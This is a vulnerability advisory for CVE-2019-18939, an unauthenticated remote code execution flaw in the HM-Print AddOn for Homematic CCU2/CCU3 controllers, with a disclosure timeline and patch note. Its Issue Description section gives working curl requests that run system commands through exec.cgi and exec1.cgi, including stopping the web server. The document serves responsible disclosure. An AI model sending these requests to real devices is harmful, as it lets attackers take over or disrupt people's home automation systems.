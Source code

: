 ```yaml
---
layout: post
title:  "CVE-2019-18939 eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request"
date:   2020-11-05 21:00:00 MET
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-18939
- Author: psytester
- Title: eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: 05.11.2020
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'HM-Print' AddOn contacted: 13.08.2019 as [issue #4](https://github.com/litti/hm-print/issues/4)
  - Developer of 'HM-Print' AddOn confirmation: N.A.
  - 'HM-Print' AddOn patch: [Version 2.3](https://github.com/homematic-community/hm-print/releases/tag/2.3) released on 03.11.2020
  - Affected 'HM-Print' AddOn version: 2.2, 2.1, 1.2a and prior

# Background

From [Github 'HM-Print' AddOn project page](https://github.com/litti/hm-print):<br>
For documentation purposes it would sometimes be desirable to be able to print programs within the WebUI. Unfortunately, the interface does not offer a corresponding function. Also the built-in print function of the browser does not help, because scripts may remain unaffected by the printout. With this small AddOn this functionality can be easily retrofitted.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'HM-Print' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented internal system.Exec() call on exec.cgi or exec1.cgi:

```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
```

2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device call on exec.cgi or exec1.cgi:

```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
```

# CVE

[CVE-2019-18939](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18939)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
